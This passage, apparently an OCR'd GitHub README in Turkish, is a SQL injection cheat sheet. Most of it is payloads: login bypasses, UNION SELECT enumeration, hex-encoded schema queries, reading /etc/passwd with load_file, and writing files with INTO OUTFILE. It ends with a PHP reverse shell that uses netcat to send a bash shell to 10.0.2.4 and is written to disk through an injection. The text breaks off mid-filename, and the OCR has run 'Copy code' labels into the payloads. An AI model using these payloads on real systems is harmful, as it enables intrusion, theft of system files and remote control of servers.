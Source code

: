 \# SqlBypass-Penetration

\# SQL Injection ve Active Directory Penetration Testing Örnekleri

\## Temel SQL Injection

\### Örnek 1: Basit SQL Injection

\`\`\`sql SELECT \* FROM accounts WHERE username=david AND
password=\'1234\' AND 1=1# Örnek 2: Login Bypass sql Copy code SELECT \*
FROM accounts WHERE username=\'david\'# AND password=\'1234\' Örnek 3:
OR Operatörü sql Copy code SELECT \* FROM accounts WHERE
username=\'david\' AND password=\'1234\' OR 1=1# Örnek 4: SQL Injection
Get Method html Copy code http://example.com/login?username=david\' OR
\'1\'=\'1&password=1234 UNION SELECT İşlemleri Örnek 5: UNION SELECT
Temel Kullanım sql Copy code username=\'david\' UNION SELECT 1,2,3,4,5#
Örnek 6: İleri Seviye SQL Injection sql Copy code 1\' AND 1=1# 1\' ORDER
BY 1,2,3\--+ 1\' GROUP BY 1,2,3\--+ \' UNION SELECT sum(columnname) from
tablename\-- HEX Verme Örnek 7: HEX İle SQL Injection sql Copy code
david\' union select 1,table_name from information_schema.tables where
table_schema = 0x64767761# DOSYA OKUMA VE YAZMA Örnek 8: Dosya Okuma sql
Copy code 1\' union select 1,load_file(\'/etc/passwd\')# Örnek 9: Dosya
Yazma sql Copy code 1\' union select 1,\'test\',into outfile
\'tmp/test.txt\'# SQL Açığı İle Shell Almak Örnek 10: PHP Reverse Shell
php Copy code \<?passthru(\"nc 10.0.2.4 4040 -e /bin/bash\");?\> bash
Copy code 1\' union select 1,\'\<?passthru(\"nc 10.0.2.4 4040 -e
/bin/bash\");?\>\',into outfile \'tmp/myshell.p
